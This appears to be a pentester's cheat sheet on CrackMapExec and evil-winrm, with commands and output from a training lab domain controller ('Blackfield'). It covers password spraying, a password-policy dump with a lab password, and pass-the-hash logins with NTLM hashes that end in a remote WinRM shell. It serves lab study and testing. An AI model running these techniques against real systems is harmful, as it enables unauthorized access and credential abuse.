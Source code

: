 [CrackMapexec | SMB & AD Enumeration Simplified !](https://systemweakness.com/crackmapexec-smb-ad-enumeration-simplified-21e603927f44)

https://wiki.porchetta.industries/

https://ptestmethod.readthedocs.io/en/latest/cme.html

https://github.com/Porchetta-Industries/CrackMapExec/wiki/SMB-Command-Reference

# 

### TL;DR
```sh
cme smb $ip -u users.txt -p sT333ve2
cme smb $ip -u users.txt -p sT333ve2 --continue-on-success
```

### [Dump password policy with "--pass-pol"](#dump-password-policy-with---pass-pol-1)
cme smb $ip -u support -p '#00^BlackKnight' --pass-pol

### [Pass-the-Hash (PtH) with "-H"](#pass-the-hash-pth-with--h--successful)
cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

### [Pass the hash (PtH)](https://attack.mitre.org/techniques/T1550/002/)
> Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password.

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [WINRM Pwn3d!](#winrm-pwn3d-2)
cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

### [PtH with evil-winrm](#pth-with-evil-winrm-1)
evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d


```
--continue-on-success
                        continues authentication attempts even after successes
```


## CrackMapexec v5.4.0 (2023.1-3) doesn't work well. Update latest version manually
```sh
$ cat /etc/os-release 
PRETTY_NAME="Kali GNU/Linux Rolling"
NAME="Kali GNU/Linux"
VERSION_ID="2023.3"
VERSION="2023.3"
...
```

### Installation

https://github.com/mpgn/CrackMapExec

https://wiki.porchetta.industries/getting-started/installation

https://wiki.porchetta.industries/getting-started/installation/installation-on-unix

```

```

### 
```

```

### Examples
### Dump password policy with "--pass-pol"
```sh
$ cme smb $ip -u support -p '#00^BlackKnight' --pass-pol
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\support:#00^BlackKnight 
SMB         10.10.10.192    445    DC01             [+] Dumping password info for domain: BLACKFIELD
SMB         10.10.10.192    445    DC01             Minimum password length: 7                                                                                         
SMB         10.10.10.192    445    DC01             Password history length: 24                                                                                        
SMB         10.10.10.192    445    DC01             Maximum password age: 41 days 23 hours 53 minutes                                                                  
SMB         10.10.10.192    445    DC01                                                                                                                                
SMB         10.10.10.192    445    DC01             Password Complexity Flags: 000001                                                                                  
SMB         10.10.10.192    445    DC01                 Domain Refuse Password Change: 0                                                                               
SMB         10.10.10.192    445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.10.192    445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.10.192    445    DC01                 Domain Password Complex: 1
SMB         10.10.10.192    445    DC01             
SMB         10.10.10.192    445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.10.10.192    445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.10.192    445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.10.192    445    DC01             Account Lockout Threshold: None
SMB         10.10.10.192    445    DC01             Forced Log off Time: Not Set
```

### Pass-the-Hash (PtH) with "-H" ; STATUS_LOGON_FAILURE
```sh
$ cme smb $ip -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE
```

### Pass-the-Hash (PtH) with "-H" ; Successful
```sh
$ cme smb $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

### WINRM Pwn3d!
```sh
$ cme winrm $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

### [PtH with evil-winrm](https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/)
```sh
$ evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

### 
```

```